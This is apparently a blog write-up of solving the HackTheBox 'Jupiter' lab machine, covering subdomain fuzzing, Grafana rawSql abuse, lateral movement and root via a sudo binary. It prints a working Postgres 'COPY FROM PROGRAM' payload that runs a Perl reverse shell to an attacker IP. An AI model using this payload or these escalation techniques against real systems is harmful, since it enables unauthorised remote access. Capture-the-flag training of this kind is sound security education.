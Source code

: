 ```yaml
---
title: HacktheBox Jupiter Writeup
date: 2023-06-16
categories: [Writeup]
tags: [writeup, solve, hackthebox, hack, cybersecurity, machine, jupiter, ctf, htb]
---
```


# Jupiter Machine

I recently solved this HTB machine and it was fun box, and wanted to share with you my writ-up.

![](/assets/img/jupiter/Screenshot 2023-06-17 150912.png)

### Recon

 The first phase is trying to figure out the box so doing NMAP to scan the running services first.

We got only couple of ports open SSH and HTTP on port 80




![](/assets/img/jupiter/Pasted image 20230609200055.png)

After trying to access the http service it redirects us to `http://jupiter.htb`

 ![](/assets/img/jupiter/Pasted image 20230609195342.png)


 So we need to add the hostname in our `hosts` file 

![](/assets/img/jupiter/Pasted image 20230616210813.png)

 The website is a static nothing interesting shows right away, So doing some enumeration found nothing

![](/assets/img/jupiter/Pasted image 20230616221946.png)

### Scanning

 But after fuzzing the subdomains found a subdomain `kiosk.jupiter.htb`

![](/assets/img/jupiter/Pasted image 20230609200244.png)


 The subdomain is hosting a Grafana instance but still nothing interesting found right away.

![](/assets/img/jupiter/Pasted image 20230616221857.png)


### Exploitation

So firing up Burp to see how everything works under the hood

After analyzing the requests made found an interesting API call which has a very interesting parameter called "rawSql" which exactly function as its name, It takes a SQL Query as an input and execute it.

![](/assets/img/jupiter/Pasted image 20230609200643.png)

 And it already made our job easier and found a header identifying the backend database used which is "postgres" 

 So now all we need is to craft Postgres SQL query to get a reverse shell

 Using the bellow SQL commands to get a reverse shell

```sql
CREATE TABLE files(cmd_output text);

COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,\"10.10.16.67:1339\");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';

-- Note the backslash to escape the double quote to be a correct format of JSON
```

![](/assets/img/jupiter/Pasted image 20230609201308.png)

 We successfully received a shell
 Now we need to stabilize the shell and upgrade it to be interactive.

![](/assets/img/jupiter/Pasted image 20230616215013.png)

### Getting The User Flag

 Since I couldn't find something interesting, One thing I like to do after using "Linpeas" script is "pspy" 

 Transferring and using `pspy` to monitor and snoop on all running process.

 Found a process that gets executed every few minutes which is calling a config file in "/dev/shm" directory 

 And this config file is world writable by any user

![](/assets/img/jupiter/Pasted image 20230609202057.png)

![](/assets/img/jupiter/Pasted image 20230616215707.png)

 Editing the config file to execute commands on behalf the process's owner and getting escalated privilege as `juno` user

![](/assets/img/jupiter/Pasted image 20230608201649.png)

 Using `pspy` to see if the commands gets executed successfully 

![](/assets/img/jupiter/Pasted image 20230608202711.png)

 Using the sticky bit permission over the `bash` binary I was able to get escalate privilege as `juno` user

![](/assets/img/jupiter/Pasted image 20230608202821.png)


![](/assets/img/jupiter/Pasted image 20230608233501.png)

 As we can see in the previous screen in order to read the `user.txt` file we must be in the group of `juno` which we are not, cause we got our shell inherited from the previous session which from the user `postgress` and to get all groups of the user `juno` we must start a new session not inherit a new one.

 Getting a reverse shell using the script found in the `juno` home directory which runs every few minutes as we have write access to the script.

![](/assets/img/jupiter/Pasted image 20230608233538.png)

 Now we are able to read the user.txt file

![](/assets/img/jupiter/Pasted image 20230608233731.png)


### Lateral Movement 

 We can see another user called `jovian` in the home directory which maybe interesting.
 But couldn't find anything would help to escalate to the root or the other user "Jovian"

 Trying to find any files or directories owned by `jovian` and accessible by `juno`

```sh
find / -user jovian 2>/dev/null
```

 Found a directory `solar-flares` which is owned by group `science` and `juno` is a user of this group which means juno can access the folder

![](/assets/img/jupiter/Pasted image 20230609210029.png)

 Reading the files it looks like a Jupyter server and already found a token from the logs
![](/assets/img/jupiter/Pasted image 20230616220827.png)
 To make sure the website is still up and running using `netstat`

![](/assets/img/jupiter/Pasted image 20230609210415.png)

 Now we are sure that the server is running

 Now we need to access the port "8888" from our machine top be able view the server from the browser we could do that easily by port forwarding but we don't have SSH access, So we will use chisel.

 Transferring Chisel and pivot to access the Jupyter instance

![](/assets/img/jupiter/Pasted image 20230609002818.png)

 Injecting reverse shell code and  execute it

![](/assets/img/jupiter/Pasted image 20230609002953.png)


 Received a reverse shell as `jovian`

![](/assets/img/jupiter/Pasted image 20230609003103.png)

### Privilege Escalation To Root

 Using `sudo -l` to see what commands are allowed to run as root

![](/assets/img/jupiter/Pasted image 20230609024928.png)

 We can run execute this binary as root without requiring password
 The binary `sattrack` needs a config file to run
 Searching for the configs

![](/assets/img/jupiter/Pasted image 20230609025001.png)

 After understading how this works, It seems it tries to fetch a file and store it on the current directory, We can hack this by providing the `root.txt` file to fetch and then it will store its content in the same directory where we can view it 

![](/assets/img/jupiter/Pasted image 20230609025117.png)

 Run the tool as sudo, Read the root.txt

![](/assets/img/jupiter/Pasted image 20230609025159.png)


 Now we got the last flag.


Hope you enjoyed the write-up!
